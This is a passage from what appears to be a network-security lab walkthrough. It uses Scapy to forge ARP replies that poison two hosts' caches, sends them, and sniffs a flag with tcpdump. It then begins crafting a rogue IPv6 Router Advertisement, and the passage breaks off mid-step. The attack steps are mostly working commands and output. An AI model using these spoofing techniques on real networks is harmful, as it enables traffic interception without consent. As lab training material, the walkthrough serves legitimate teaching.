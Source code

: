 ```
>>> b.psrc = "172.16.82.115"
>>> b.pdst = "172.16.82.126"
>>> b.show()
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = fa:16:3e:a0:65:dd
  psrc      = 172.16.82.115
  hwdst     = 00:00:00:00:00:00
  pdst      = 172.16.82.126
```

3. "Create the arp header to poinson T3 (bluehost-4)"
```
>>> c=ARP()
>>> c.op=2
>>> c.psrc = "172.16.82.126"
>>> c.pdst="172.16.82.115"
>>> c.show()
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = fa:16:3e:a0:65:dd
  psrc      = 172.16.82.126
  hwdst     = 00:00:00:00:00:00
  pdst      = 172.16.82.115
```
4. Send  your crafted header using "sendp" 
- ` sendp(a/b, iface="eth0"); sendp(a/c, iface="eth0")`

5. "Intercept the flag being sent over the network. Use TCPDUMP or Wireshark to capture the FLAG using icmp and host 172.16.82.115 capture filters to minimize the traffic."
- `sudo tcpdump icmp and host 12.16.82.115 -X`
- Dog_say_ARP_ARP is the flag 

-------
## Task 2 
1. Create the IPv6 header (IPv6) using the All Nodes multicast address.
```
>>> a = IPv6()
>>> a.show()
###[ IPv6 ]### 
  version   = 6
  tc        = 0
  fl        = 0
  plen      = None
  nh        = No Next Header
  hlim      = 64
  src       = ::1
  dst       = ::1
a.dst = "ff02::1"

```
2. Create the ICMPv6 Router Advertisement Header (ICMPv6ND_RA).
```
>>> b = ICMPv6ND_RA()
>>> b.show()
###[ ICMPv6 Neighbor Discovery - Router Advertisement ]### 
```